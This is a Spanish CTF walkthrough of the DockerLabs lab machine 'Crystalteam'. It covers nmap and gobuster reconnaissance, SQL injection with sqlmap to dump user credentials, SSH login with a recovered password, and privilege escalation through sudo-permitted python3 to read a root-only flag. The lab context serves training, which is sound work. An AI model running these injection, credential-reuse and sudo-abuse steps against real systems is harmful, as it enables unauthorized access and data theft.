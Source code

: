 # 🖥️ **Máquina: Crystalteam**  
- **🔹 Dificultad:** Fácil  
- **📌 Descripción:**  
  Esta máquina de DockerLabs está diseñada para poner a prueba habilidades en la explotación de bases de datos mediante **inyecciones SQL (SQLi)**. Se centra en la identificación y explotación de vulnerabilidades en consultas MySQL, lo que permite obtener acceso no autorizado a la base de datos y extraer información sensible.  

- **🎯 Objetivo:**  
  - Identificar y explotar fallos de seguridad en la pagina web Certificacion mediante técnicas de **inyección SQL**.  
  - Comprender el impacto de estas vulnerabilidades.  

---

## 🚀 **Despliegue de la Máquina Backend en DockerLabs**  

Para iniciar la máquina, sigue estos pasos:

### 1️⃣ **Descargar el archivo**  
Comienza descargando el archivo en:

```bash
https://drive.google.com/drive/folders/1rmXS7t-rqtLrRHcFd15-Sv8ujptn4fpT?usp=sharing
```

### 2️⃣ **Ejecutar el despliegue automático**  
Una vez descargas el archivo, ejecuta el siguiente comando para desplegar la máquina:
```bash
bash auto_deploy.sh crystalteam.tar
```
![Máquina Backend](/Img/Docker.jpeg)

Una vez iniciada, comprueba la conexión con el siguiente comando:

```bash
ping -c4 172.17.0.2
```

Cuando la conexión esté confirmada, comenzamos la fase de reconocimiento con:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```
📌 **Nota:** En mis repositorios encontrarás scripts personalizados con los comandos utilizados en esta fase.

Para extraer la información relevante de los resultados de escaneo, utilizo el siguiente comando:

```bash
extracPorts allPorts.txt
```

Con los puertos identificados, realizamos un análisis más detallado con el siguiente comando para obtener información sobre los servicios que están corriendo en dichos puertos:

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```
![Máquina Backend](/Img/Puertos.jpeg)

📌 **Nota:** Esta información nos permite identificar posibles vulnerabilidades basadas en las versiones de los servicios, como en este caso, donde el puerto 22 está relacionado con SSH y el puerto 80 con una página web.

Para acceder a la página web desde el navegador, añade la dirección IP de la máquina (172.17.0.2) en tu archivo de hosts. Para ello, edita el archivo con:

```bash
nano /etc/hosts
```
Luego, recopilamos información sobre la página web con el siguiente comando, lo que nos permitirá conocer los servicios y versiones utilizados, y buscar posibles vulnerabilidades:

```bash
whatweb 172.17.0.2
```
![Máquina Backend](/Img/whatweb.jpeg)

Al acceder a la página, observamos que existe varios apartados y un formulario de registro y de login. Intentamos ingresar utilizando credenciales predeterminadas, pero no tienen éxito.

![Máquina Backend](/Img/index.jpeg)

![Máquina Backend](/Img/ad.jpeg)

Para encontrar posibles directorios ocultos, utilizamos **gobuster** con una lista de directorios conocida:

```bash
gobuster dir -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b '403,404' -x php,html,txt
```
Para encontrar posibles sub-dominios, utilizamos **gobuster** con una lista de directorios conocida:

```bash
gobuster vhost -u http://172.17.0.2/Certificacion -w /usr/share/seclists/Discovery/web-Content/directory-list-2.3-medium.txt -t 20 | grep -v "402"
```

📌 **Nota:** Si no tienes instalada la lista de directorios, puedes hacerlo con:

```bash
apt -y install seclists
```

![Máquina Backend](/Img/domi.jpeg)

![Máquina Backend](/Img/php.jpeg)

No encontramos subdominios o directorios importantes.

Para confirmar si la página es vulnerable a inyecciones SQL, intentamos ingresar `admin'` en el campo de usuario, lo que provoca un error de base de datos. Esto indica que la página es vulnerable a inyecciones SQL, ya que el carácter de comilla simple (') altera la estructura de la consulta SQL.
![Máquina Backend](/Img/in.jpeg)

![Máquina Backend](/Img/error.jpeg)

Utilizamos **Burp Suite** para interceptar la solicitud y luego copiarla a un archivo `.req`, lo que nos permitirá usarla más tarde.

Con **sqlmap**, una herramienta automática para realizar inyecciones SQL, atacamos el formulario para obtener información sensible. El comando utilizado fue:

```bash
sqlmap -r peticione.req --level=5 --risk=3 --dump
```
![Máquina Backend](/Img/sql.jpeg)

Al finalizar la inyección, conseguimos acceder a una base de datos llamada **inicio**, que contiene nombres de usuario y contraseñas. Sin embargo, solo una credencial fue valida para iniciar sesión en la página web. Intentamos acceder por SSH y encontramos que la única credencial válida era `alejandro`. Aunque se puede intentar hacer un ataque automatizado con **Hydra**, la cantidad de contraseñas era pequeña, por lo que se optó por hacerlo manualmente.

![Máquina Backend](/Img/Tabla.jpeg)
Para acceder por SSH, usamos: 

```bash
ssh alejandro@172.17.0.2 -p 22
```
![Máquina Backend](/Img/ssh.jpeg)

Se encontro un archivo redflag.txt pero no podiamos acceder porque solo el usuario root tenia los permisos, buscamos vulnerabilidades para escalar privilegios y encontre que python puede ejecutar comando como root con el comando lo verificamos.

```bash
sudo -l | grep python
```
Procedemos a explotar esta vulnerabilidad:

```bash
sudo python3 -c "print(open('redflag.txt').read())"
```

![Máquina Backend](/Img/root.jpeg)
Por ultimo verificamos las credenciales que sean correctas:
```bash
su -
```
![Máquina Backend](/Img/ter.jpeg)
